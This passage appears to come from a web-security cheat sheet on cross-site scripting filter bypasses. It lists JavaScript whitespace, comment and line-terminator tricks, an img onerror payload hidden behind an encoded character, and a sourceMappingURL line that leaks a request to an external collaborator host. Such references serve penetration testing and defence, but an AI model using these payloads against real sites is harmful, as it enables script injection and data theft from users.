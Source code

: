 **Space substitutions inside JS code**

```javascript
<TAB>
/**/
```

**JavaScript comments (from** [**JavaScript Comments**](#javascript-comments) **trick)**

```javascript
//This is a 1 line comment
/* This is a multiline comment*/
<!--This is a 1line comment
#!This is a 1 line comment, but "#!" must to be at the beggining of the first line
-->This is a 1 line comment, but "-->" must to be at the beggining of the first line
```

**JavaScript new lines (from** [**JavaScript new line**](#javascript-new-lines) **trick)**

```javascript
//Javascript interpret as new line these chars:
String.fromCharCode(10)
alert("//\nalert(1)") //0x0a
String.fromCharCode(13)
alert("//\ralert(1)") //0x0d
String.fromCharCode(8232)
alert("//\u2028alert(1)") //0xe2 0x80 0xa8
String.fromCharCode(8233)
alert("//\u2029alert(1)") //0xe2 0x80 0xa9
```

**JavaScript whitespaces**

```javascript
log=[];
function funct(){}
  for(let i=0;i<=0x10ffff;i++){
      try{
        eval(`funct${String.fromCodePoint(i)}()`);
        log.push(i);
      }
      catch(e){}
  }
console.log(log)
//9,10,11,12,13,32,160,5760,8192,8193,8194,8195,8196,8197,8198,8199,8200,8201,8202,8232,8233,8239,8287,12288,65279

//Either the raw characters can be used or you can HTML encode them if they appear in SVG or HTML attributes:
<img/src/onerror=alert&#65279;(1)>
```

**Javascript inside a comment**

```javascript
//If you can only inject inside a JS comment, you can still leak something
//If the user opens DevTools request to the indicated sourceMappingURL will be send

//# sourceMappingURL=https://evdr12qyinbtbd29yju31993gumlaby0.oastify.com
```
